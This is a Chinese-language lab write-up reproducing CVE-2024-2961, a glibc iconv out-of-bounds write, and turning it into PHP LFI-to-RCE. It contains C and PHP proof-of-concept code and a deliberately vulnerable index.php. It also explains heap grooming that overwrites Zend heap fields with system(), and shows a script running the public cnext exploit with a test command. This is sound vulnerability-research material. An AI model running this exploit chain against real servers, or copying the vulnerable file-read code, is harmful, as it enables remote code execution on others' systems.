# CVE-2024-2961 漏洞分析 by owl_d

## 大綱

CVE-2024-2961 主要是 glibc 的 iconv 函式，在進行字元轉換時，因為呼叫 Escape Sequence 到輸出時沒有檢查邊界問題，因此可以造成 OOB Write，後續也利用這個 Off by one 來打達成 PHP 的 LFI to RCE 漏洞。

## 前言

這次的漏洞復現筆記和過程紀錄，

主要都是以 heptabase 進行，

此篇文章是將筆記內容集結整理而成。

heptabase 筆記連結：https://app.heptabase.com/p/whiteboard/95d29c42-f2ab-436f-802f-afbd475f6ca5/tab/cc696736-4e65-4fe3-ad7c-dd02b8f9ee01



這次的 CVE 復現主要是參考 https://medium.com/@knownsec404team/analysis-of-cve-2024-2961-vulnerability-e81c165cd897 來進行

那在開始之前我們就先來看看 iconv 這個函式

## iconv() func

### iconv() vulnerbilities

- 主要問題出在 `glibc/iconvdata/iso-2022-cn-ext.c` 這個檔案
- ISO-2022-CN_EXT 在轉換字元的時候會去呼叫一個 escape sequence

### Escape Sequence

長得像 /x1b $ \* H (4 bytes)

- /x1b 對應的是 esc，
- 如果要切換到 CNS 擴展字集的時候就會輸出 `ESC $ )` 做切換，
- 最後一位 H 代表要切換到哪個字集。

### 程式漏洞

\*outptr++ = … 會執行四次

而且完全沒檢查 boundary

UTF-8 是 3 bytes

寫入 4 bytes 就可以 off by one

### iconv API

```c
size_t iconv(iconv_t cd,

             char **inbuf, size_t *inbytesleft,

             char **outbuf, size_t *outbytesleft);
```

但他沒有 Transaction 保證！

假設是 outbytesleft 剩 3 好了

他會先把前三個填完之後，去填第四個，然後才報 error

可是前面的東西都不會 rollback！

→ OOB Write

## Why PHP, not C?

php:

- 在 `php://filter` iconv chains 上會去重複 allocate 好幾個重複的 chunk
- 比較好控制改寫到的地方
- 可能下一個 chunk 第一個 bytes 就是 flag 可以改

C:

- 不太會重複
- 不好掌握下一個 chunk 第一個 byte 會是什麼東西

## glibc 環境建置

### 1. Dockerfile

```dockerfile
# 基本 docker 的模板
# 自己習慣先裝最精簡的版本，後面有需要的再回來改
# docker build -t <image name>:<tag> .
# docker run --rm -it <image name>:tag

FROM ubuntu:22.04

# 解決 apt install 跳出來的互動問題
ENV DEBIAN_FRONTEND=noninteractive

# 基本工具
RUN apt-get update && apt-get install -y \
  build-essential \
  wget \
  && rm -rf /var/lib/apt/lists/*

# 進去容器後在 work 裡
WORKDIR /work

# 預設開 bash
CMD ["bash"]
```

### 2. 把 docker 跑起來

```shell
┌──(kali㉿kali)-[~/Documents/CVEs/CVE-2024-2961]
└─$ sudo docker build -t cve-2024-2961:lab .
[+] Building 1.7s (7/7) FINISHED                                                                                                                               docker:default
 => [internal] load build definition from Dockerfile                                                                                                                     0.0s
 => => transferring dockerfile: 516B                                                                                                                                     0.0s
 => [internal] load metadata for docker.io/library/ubuntu:22.04                                                                                                          1.6s
 => [internal] load .dockerignore                                                                                                                                        0.0s
 => => transferring context: 2B                                                                                                                                          0.0s
 => [1/3] FROM docker.io/library/ubuntu:22.04@sha256:aa6efdd564b660b6df78df8f4bca20dbb8338c46fb696d4b45c4a57b8f66679f                                                    0.0s
 => CACHED [2/3] RUN apt-get update && apt-get install -y   build-essential   && rm -rf /var/lib/apt/lists/*                                                             0.0s
 => CACHED [3/3] WORKDIR /work                                                                                                                                           0.0s
 => exporting to image                                                                                                                                                   0.0s
 => => exporting layers                                                                                                                                                  0.0s
 => => writing image sha256:1b1533c612de06b6f6107daba8cb7a7c5fb039008f018bab050e00e2b9843e7e                                                                             0.0s
 => => naming to docker.io/library/cve-2024-2961:lab                                                                                                                     0.0s

┌──(kali㉿kali)-[~/Documents/CVEs/CVE-2024-2961]
└─$ sudo docker run --rm -it cve-2024-2961:lab

root@c814964922d8:/work#
```

### 3. 載 glibc 2.39

```shell
wget https://ftp.gnu.org/gnu/glibc/glibc-2.39.tar.xz
tar -xf glibc-2.39.tar.xz
```

### 4. Configure 看看



這其實是我第一次去編 glibc，

查了一下網路發現會跳 error 是因為需要 out-of-tree build

我的理解的話是直接在這個資料夾 build，原始碼會全部髒掉

所以比較好的做法應該是開一個新的資料夾再 configure

```shell
root@c814964922d8:/work/glibc-2.39# mkdir glibc-build
root@c814964922d8:/work/glibc-2.39# cd glibc-build
root@c814964922d8:/work/glibc-2.39/glibc-build# ../configure
checking build system type... x86_64-pc-linux-gnu
checking host system type... x86_64-pc-linux-gnu
checking for gcc... gcc
checking for suffix of object files... o
checking whether the compiler supports GNU C... yes
checking whether gcc accepts -g... yes
checking for gcc option to enable C11 features... none needed
checking for g++... g++
checking whether the compiler supports GNU C++... yes
checking whether g++ accepts -g... yes
checking for g++ option to enable C++11 features... none needed
checking whether g++ can link programs... yes
checking for sysdeps preconfigure fragments... aarch64 alpha arc arm csky hppa i386 loongarch m68k microblaze checking for grep that handles long lines and -e... /usr/bin/grep
checking for egrep... /usr/bin/grep -E
mips nios2 or1k powerpc riscv s390 sh checking for grep that handles long lines and -e... (cached) /usr/bin/grep
checking for egrep... (cached) /usr/bin/grep -E
sparc x86_64 checking whether gcc compiles in -mx32 mode by default... no

checking for a BSD-compatible install... /usr/bin/install -c
checking whether ln -s works... yes
checking for ld... ld
checking version of ld... 2.38, ok
checking for gnumake... no
checking for gmake... gmake
checking version of gmake... 4.3, ok
checking for gnumsgfmt... no
checking for gmsgfmt... no
checking for msgfmt... no
checking for makeinfo... no
checking for sed... sed
checking version of sed... 4.8, ok
checking for gawk... no
checking for bison... no
checking if gcc is sufficient to build libc... yes
checking for python3... no
checking for python... no
configure: error:
*** These critical programs are missing or too old: gawk bison python
*** Check the INSTALL file for required versions.
root@c814964922d8:/work/glibc-2.39/glibc-build#
```

這時候就會發現新的 error，

一開始我們的 Dockerfile 是用最精簡的方式去做，

那現在有看到缺的項目就補回去

### 5. Dockerfile 修正

```dockerfile
# 第二版 Dockerfile (glibc configure 會用到的東西)
# docker build -t <image name>:<tag> .
# docker run --rm -it <image name>:tag

FROM ubuntu:22.04

# 解決 apt install 跳出來的互動問題
ENV DEBIAN_FRONTEND=noninteractive

# 基本工具 + glibc 工具
RUN apt-get update && apt-get install -y \
  build-essential \
  wget \
  gawk \
  bison \
  python3 \
  texinfo \
  xz-utils \
  && rm -rf /var/lib/apt/lists/*

# 進去容器後在 work 裡
WORKDIR /work

# 把前面 glibc 建好的 shell script
COPY ./glibc_setup.sh glibc_setup.sh
RUN chmod +x glibc_setup.sh
RUN bash /work/glibc_setup.sh

# 預設開 bash
CMD ["bash"]
```

那為了方便前面的操作，

我也寫了一個 shell script:

```shell
#!/bin/bash

wget https://ftp.gnu.org/gnu/glibc/glibc-2.39.tar.xz
tar -xf glibc-2.39.tar.xz

cd glibc-2.39
mkdir glibc-build
cd glibc-build
```

### 6. glibc configure

在跑完 `../configure` 會有以下 error:

```shell
*** On GNU/Linux systems the GNU C Library should not be installed into
*** /usr/local since this might make your system totally unusable.
*** We strongly advise to use a different prefix.  For details read the FAQ.
*** If you really mean to do this, run configure again using the extra
*** parameter `--disable-sanity-checks'.
```

查了一下關於 prefix 的說明後，

發現大家應該普遍都是裝在 /opt/glibc2.39 這樣的資料夾，

才不容易把機器搞 crash (但也有人說其實 docker 內不會有影響)

```shell
../configure --prefix=/opt/glibc-2.39
```

這樣就成功完成了

```shell
# Configure 成功結束（echo $? 可以看前一個指令的 exit code，0 就是成功）
root@7d68d1ce94ad:/work/glibc-2.39/glibc-build# echo $?
0

# 看一下東西是不是都建出來了
root@7d68d1ce94ad:/work/glibc-2.39/glibc-build# ls
Makefile  bits  config.h  config.log  config.make  config.status
```

### 7. Make

直接輸入 make 就好，

然後就會有一大串 output 產出，

但看網路上很多人編的時候好像都會用 `make -j"$(nproc)"` 來加快速度

後面的 `-j”$(nproc)”` 是只用 CPU 核心數來平行編譯

make 成功後應該就可以看到這些內容



### 8. make install

接下來用 make install 裝完後 glibc-2.39 的資料夾裡面內容就完整了



## 最小的 PoC

在進到 PoC 之前，

我們可以先來看看 iconv 確切是怎麼跑的

### iconv 運作

iconv 主要是拿來做 文字檔編碼轉換

查了一些資料之後，我的理解是像下面的圖


大概也可以感受出來會跟 pointer 有些相關

如果我們仔細去看他的參數：

```c
size_t iconv(
    iconv_t cd,
    char **inbuf,
    size_t *inbytesleft,
    char **outbuf,
    size_t *outbytesleft
);
```

就可以發現這種拿來控制指向位置的 指標的指標（\*\*） 出現

(也就是說 原本有個指標 A 指向陣列的第一個元素

然後指標的指標 是控制讓那個指標 A 往後走，指向下一個元素)

這也就是 iconv 在接收 input 跟輸出 output 的運作方式

### PoC

這次的 CVE 中我們要復現的漏洞概念如下，

我們把這支程式可前面講的概念做一些結合，

poc.c:

```c
#include <iconv.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>

int main(){
  const char *in = "劄";

  char out[3];
  char overflow[5] = "AAAA";

  memset(out, 'B', sizeof(out));

  iconv_t cd = iconv_open("ISO_2022_CN_EXT", "UTF-8");
  if (cd == (iconv_t) - 1){
    perror("iconv_open");
    return 1;
  }

  char *pin = (char *)in;
  size_t inleft = strlen(in);
  char *pout = (char *)out;
  size_t outleft = strlen(out);

  printf("Before overflow: %s\n", overflow);

  size_t r = iconv(cd, &pin, &inleft, &pout, &outleft);
  printf("iconv ret=%zd errno=%d (%s)\n", r, errno, strerror(errno));

  printf("After overflow: %s\n", overflow);

  iconv_close(cd);
  return 0;
}
```

- cd 是一個轉換器，負責把 UTF-8 轉成 ISO_2022_CN_EXT
- r 則是開始做轉換這件事，input 開始指向 in 的第一個 byte，然後往後走，output 也同理
- 一開始 out 長度我們設 3，是因為 escape sequence 剛好 4 bytes，這樣寫入剛好多一位就變成 Off by one
- 最後因為超過 3 這個大小，所以會報 error，可是改寫過的結果不會 rollback，所以可以達成 OOB Write

### 執行環境

一開始我是這樣設定

```shell
export LD_LIBRARY_PATH=/opt/glibc-2.39
export GCONV_PATH=/opt/glibc-2.39/gconv
```

然後這個 shell 就壞了，

後來 unset 後才可以正常執行，

所以測試的時候 glibc 應該只能設定套用在單獨這個 ./poc process 上，

```shell
GCONV_PATH=/opt/glibc-2.39/lib/gconv LD_LIBRARY_PATH=/opt/glibc-2.39/lib /opt/glibc-2.39/lib/ld-linux-x86-64.so.2   --library-path /opt/glibc-2.39/lib   ./poc
```

一開始執行結果會是這樣：



目前推測可能是 printf 看到 \0 就會自動截斷不輸出，

會這樣推理的原因是因為改成印出 byte 就正常了

### PoC 修改

```c
#include <iconv.h>
#include <stdio.h>
#include <string.h>
#include <errno.h>

static void dump(const char *tag, unsigned char *p, size_t n) {
    printf("%s:", tag);
    for (size_t i = 0; i < n; i++) printf(" %02x", p[i]);
    putchar('\n');
}

int main() {
    const char *in = "劄";

    char out[3];
    char overflow[5] = "AAAA";

    memset(out, 'B', sizeof(out));

    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");
    if (cd == (iconv_t)-1) {
        perror("iconv_open");
        return 1;
    }

    char *pin = (char *)in;
    size_t inleft = strlen(in);
    char *pout = out;
    size_t outleft = sizeof(out);

    printf("Before overflow as string: %s\n", overflow);
    dump("Before overflow bytes", (unsigned char*)overflow, sizeof(overflow));

    size_t r = iconv(cd, &pin, &inleft, &pout, &outleft);
    printf("iconv ret=%zd errno=%d (%s)\n", r, errno, strerror(errno));

    printf("After overflow as string: %s\n", overflow);
    dump("After overflow bytes", (unsigned char*)overflow, sizeof(overflow));

    iconv_close(cd);
    return 0;
}
```

輸出結果如下：



我們便可以驗證，

Escape Sequence 的第四位 “H” 成功覆寫到下一個 Chunk 的第一個 byte。

### gdb 驗證

我們也可以在編譯的時候加上一個 -g 參數打開 debug 模式，

後續在 gdb 看的時候會比較方便，

gdb 在 iconv 前後的輸出結果如下：



成功驗證 Escape Sequence 出現，第四位 0x48 (“ H “) 覆寫到下一個 chunk。

## 應用在 PHP 上

### 準備工作

前面我們在測試執行檔的時候前面都要加一大串 loader, gconv 的路徑有點麻煩，

所以後來寫了一個 shell script 來簡化整個流程

```bash
#!/bin/bash
set -e

GLIBC=/opt/glibc-2.39
LOADER=$GLIBC/lib/ld-linux-x86-64.so.2

SYS_LIB="/lib/x86_64-linux-gnu:/usr/lib/x86_64-linux-gnu"

exec env \
  GCONV_PATH="$GLIBC/lib/gconv" \
  "$LOADER" --library-path "$GLIBC/lib:$SYS_LIB" \
  "$@"
```

```shell
root@0a85e9f2e41d:/work# ./poc2
Before overflow as string: AAAA
Before overflow bytes: 41 41 41 41 00
iconv ret=-1 errno=7 (Argument list too long)
After overflow as string: AAAA
After overflow bytes: 41 41 41 41 00

root@0a85e9f2e41d:/work# ./run-glibc239.sh ./poc2
Before overflow as string: AAAA
Before overflow bytes: 41 41 41 41 00
iconv ret=-1 errno=7 (Argument list too long)
After overflow as string: HAAA
After overflow bytes: 48 41 41 41 00
```

好 那我們就可以來測試 php 指令了

```
root@0a85e9f2e41d:/work# ./run-glibc239.sh php -r 'echo bin2hex(iconv("UTF-8","ISO-2022-CN-EXT","劄")), PHP_EOL;'
php: error while loading shared libraries: php: cannot open shared object file
```

這個部分我 debug 了蠻久才發現 shell script 不會去幫忙抓 PATH 的路徑，

所以要用絕對路徑來執行才會正常，

```
root@0a85e9f2e41d:/work# ./run-glibc239.sh $(which php) -r 'echo bin2hex(iconv("UTF-8 "ISO-2022-CEXT", "劄")), PHP_EOL;'
1b242a481b4e4c610f
```

最前面的 1b 24 2a 48 就是 escape sequence，

驗證成功

### PHP filter 運作方式

查了一些資料之後，我的理解是像下面這張：


也就是說，

如果我可以讓某個 filter（例如等等會講到的 convert.iconv.\*）在處理 bucket 的時候有 OOB，

那就可以寫到另一個 heap 上了

### filter PoC

```php
<?php
// 拿來當輸入的字（3 bytes）
$in = "劄";

// 開一條 stream
$fp = fopen("php://memory", "w+");

// 把 in 寫進 stream
fwrite($fp, $in);

// 把 pointer 重新移到開頭，等等的 stream_get_contents 才能從頭讀
rewind($fp);

// 串 filter
stream_filter_append($fp, "convert.iconv.UTF-8.ISO-2022-CN-EXT", STREAM_FILTER_READ);

// 觸發 filter 讀資料
$out = stream_get_contents($fp);

// 把輸出 bytes 印出來
echo bin2hex($out), PHP_EOL;
```

```shell
root@0a85e9f2e41d:/work# ./run-glibc239.sh $(which php) ./poc.php
1b242a481b4e1b4e4c610f
```

驗證成功

## PHP LFI to RCE with iconv() 原理

這邊要講的 LFI to RCE 不是那個瘋狂接一堆 filter 加解密串出字串 bypass 的那個手法

### LFI

看完 php filter 之後，其實我們就可以正式進到這個 CVE 提到的 RCE 洞了，

原理上是從 LFI 變化過來的

```php
// index.php
$file = $_POST['file'];
echo file_get_contents($file)
```

如果沒有過濾 file 的內容我們就可以送 `file=/etc/passwd`進去 leak 資料出來

### Wrappers

但 php 裡面也有一個攻擊方法是 偽協議，

`php://filter` 允許在讀資料之前，可以先對資料進行處理

整體結構會像是 `php://filter/read=<filter>/resource=<stream>`

- resource：資料來源（e.g. 檔案）
- read=`<filter>`：中文應該翻譯成 過濾器（e.g. base64 解碼、字元轉換）
- file_get_contents：處理後的結果

### Why LFI?

前面的技術其實就可以讓我們去觸發 `iconv` 這個函數了，

Wrapper 本身 resource 的部分不一定是硬碟上的檔案，

也可以用 `data://` 塞入我們自己 Data Stream，

那至於 `iconv` 則是可以用 `read=` 指定 `conver.iconv.*` 來達成

所以 payload 會長得像這樣：

```php
$_POST['file'] = "php://filter/read=convert.iconv.UTF-8.ISO-2022-CN-EXT/resource=data:text/plain;base64,AAAAA..."
```

- resource=…：這邊可以塞我們的惡意字串
- read=convert：用這個觸發 iconv

只要能夠 payload 填滿到最後倒數三個 byte，

那 iconv 的 escape sequence (4 bytes) 就可以溢出到下一個 chunk 了，

所以接下來就是要開始排 heap 了

### PHP Free List

PHP 跟 Glibc Heap 蠻類似的，

在 php 裡面管記憶體機制的是 ZMM，

那在這邊我們比較重視的是 `free_slot`

可以想像成跟 Glibc 的 Tcache 差不多，

然後會有這些性質：

- LIFO, Single Linked List
- Free 的時候會把當下 chunk 的開頭 8 bytes 寫入一個指標，指向像一個 free chunk
- 結構：Head → FreeChunk_A → FreeChunk_B → NULL
- 上面的結構裡，FreeChunk_A 的前 8 bytes 存 B 的位址

### Heap Feng Shui

談到佈局的話我們可以先用這張圖當例子：


那如果我們把 Chunk1 填滿到只剩 3 個 bytes 的空間就可以作 Off by one


- 原本：Head → Chunk2 → Chunk3 (可能是 0x……..00)
- 變成：Head → Chunk2 → Fake Chunk (0x………..48, 因為 H 是 0x48)

做 malloc 後就可以成功劫持

- 1st malloc: Head 移到 Chunk2 上
- 2nd malloc: 指到 fake chunk 上

因為現在溢出的一定是 H (0x48)，

所以攻擊的話一定要確保 0x…….48 在一個可以打的地方

### How to get shell?

在 ZMM 裡面，

`_zend_mm_heap` 是核心結構，可以類比成 glibc 的 main_arena

他有一些比較重要的欄位：

```c
struct _zend_mm_heap {
    ...
    int use_custom_heap; // ===== 第一個重點在這邊
    ...
    union {
        struct {
            void *(*_malloc)(size_t);
            void (*_free)(void*); // ========第二個在這裡
            void *(*_realloc)(void*, size_t);
        } std;
        ...
    } custom_heap;
    ...
};
```

- `use_custom_heap`：如果是 1，就會放棄預設記憶體管理邏輯，改成用 custom_heap 裡定義的函數 pointer
- `custom_heap._free`：custom 狀態下，free 的時候會叫這邊

選 free 的原因是他接收的參數類型，

malloc 跟 realloc 都是吃整數，只有 free 吃字串，

跟 system(char \*command) 一樣，所以選他

接下來我們只要開始排 heap 的時候，

把 use_custom_heap 改 1，把 custom 的 free 改成 system 就可以 RCE 了

## PHP LFI to RCE with iconv() 復現

最後，我們就要來綜合前面所有東西，

來復現 CVE-2024-2961 了

一開始我的設定是這樣：

### Dockerfile

```dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y nginx \
    php-fpm \
    python3 \
    wget

RUN sed -i 's|listen = /run/php/php8.1-fpm.sock|listen = 127.0.0.1:9000|' /etc/php/8.1/fpm/pool.d/www.conf

COPY index.php /var/www/html/index.php
COPY nginx.conf /etc/nginx/sites-enabled/default

CMD service php8.1-fpm start && nginx -g 'daemon off;'
```

- 把 `.sock` 改成用 TCP Port `127.0.0.1:9000`

### index.php

```php
<?php
$file = $_POST['file'];
$data = file_get_contents($file);
echo "File contents: $data";
?>
```

放了一些 LFI 的洞在這邊，

然後等等我們就可以用 Wrapper 搭配 iconv 來達成 RCE。

### nginx.conf

```bash
server {
  listen 80 default_server;
  listen [::]:80 default_server;
  root /var/www/html;
  index index.php;
  server_name _;

  location / {
    try_files $uri $uri/ /index.php?$query_string;
  }

  location ~ \.php$ {
    include fastcgi_params;
    fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
    fastcgi_pass 127.0.0.1:9000;
  }
}
```

- nginx 本身不能處理 php，所以傳到 port 9000 那邊去處理
- port 9000 那邊就會去處理 iconv 了

### Exploit

接下來就到最令人興奮的排 heap 環節了

我永遠都記得一句話


我很抱歉我沒有從頭到尾把它全部排出來。

這次我是使用 cnext-exploits 專案的 cnext-exploit.py 來做攻擊

https://github.com/ambionics/cnext-exploits/blob/main/cnext-exploit.py

但針對這隻 exploit 有做了一些分析

裡面作者的註解分成 4 個 steps 來完成攻擊

Step 1:

- 讓 Free List 順序跟 malloc 是反過來的
- Free List: Head → C → B → A
- 送了很多 chunk 進去經過 convert.iconv.L1.L1，但不會做任何事，只是為了觸發 alloc/free
- 這樣我們就有一條乾淨的 Free List 了

Step 2:

- 放一個 chunk，裡面包含要寫入的惡意位址（`ADDR_FAKE_BIN`）
- 可是要符合兩個條件
  - 要寫的位址大概會是像 0x7f…….. 這樣的形式，可是經過 iconv 轉換他就會跑掉了
  - 位置要在 Step 3 的後面（Step 3 是做 overflow 的）

- 所以裡面用了一個技巧 `0\n`
  - PHP 的 `dechunk` filter 在解析 chunked data 的時候，遇到開頭 0 就會認為是結束
  - 這樣就可以繞過 iconv 轉換了

Step 3:

- 這邊就是前面一直提到的 overflow 部分
  - php 從 Free List 拿出一個 Chunk，因為 Free list 是反過來的，所以現在是拿到 Step 2 的前面
  - 塞了 Padding 跟 惡意字元 "劄" 之後執行 `convert.iconv.UTF-8.ISO-2022-CN-EXT`
  - 溢出的部分就會改寫 Step 2 指向的 Chunk，變成指到 `ADDR_FAKE_BIN` （`_zend__mm_heap` struct 的位址）

Step 4:

- 繼續讓 PHP 申請 Chunk
- PHP 發現 Free List 指向 `_zend_mm_heap`
- PHP 把 `_zend_mm_heap` 分配給我們寫入
- 把 `use_custom_heap` 改 1
- `custom_heap._free` = `system`：custom 模式下的 free 把它劫持掉

最後建了一個字串 kill -9 $PPID; `<command>`

free 掉的時候會去呼叫 system("kill -9 ...; `<command>`")

### FIlter Chain

```python
filters = [
    "zlib.inflate",              # 解壓我們傳上去的一大串 Payload
    "zlib.inflate",
    "dechunk",
    "convert.iconv.L1.L1",       # 這邊不會做事，單純為了觸發 alloc/free
    "dechunk",                   # dechunk 來繞過 iconv，地址才不會被改掉
    "convert.iconv.L1.L1",
    "dechunk",
    "convert.iconv.UTF-8.ISO-2022-CN-EXT", # 在這邊 off by one
    "convert.quoted-printable-decode", # 寫入 _zend_mm_heap
    "convert.iconv.L1.L1",
]
```

這邊是測試的結果



一開始測的時候發現有一些 error，

所以猜測是 offset 有問題，

exploit 裡也有一個 pad 參數可以調 offset，

所以想說試試看 10~50，就寫了一個 shell script 自動進行

### solve.sh

```bash
#!/bin/bash

for i in {10..50}; do
  echo "Pad: $i"
  python3 cnext-exploit.py http://127.0.0.1:8080/index.php "touch /tmp/pwned_$i" --pad $i
done
```

